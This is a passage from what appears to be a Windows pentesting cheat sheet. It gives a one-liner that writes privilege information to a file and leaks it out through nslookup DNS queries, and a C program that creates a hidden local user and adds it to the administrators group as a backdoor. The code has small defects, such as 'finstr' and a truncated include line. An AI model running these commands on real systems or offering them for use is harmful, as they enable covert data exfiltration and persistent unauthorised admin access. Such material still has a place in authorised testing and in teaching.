 You can also **redirect** the output, and then **read** it.

```
whoami /priv | finstr "Enab" > C:\Users\Public\Documents\out.txtfor /f "tokens=1,2,3,4,5,6,7,8,9" %a in ('type "C:\Users\Public\Documents\out.txt"') do nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i 
```

## Calling CMD from C code <a href="#calling-cmd-from-c-code" id="calling-cmd-from-c-code"></a>

```
#include      ​​int main (){    int i;    i=system("net users otherAcc 0TherAcc! /add");    i=system("net localgroup administrators otherAcc /add");    return 0;}
```

## Alternate Streams CheatSheet (ADS/Alternate Data Stream) <a href="#alternate-streams-cheatsheet-ads-alternate-data-stream" id="alternate-streams-cheatsheet-ads-alternate-data-stream"></a>

Taken from [https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)​

```
```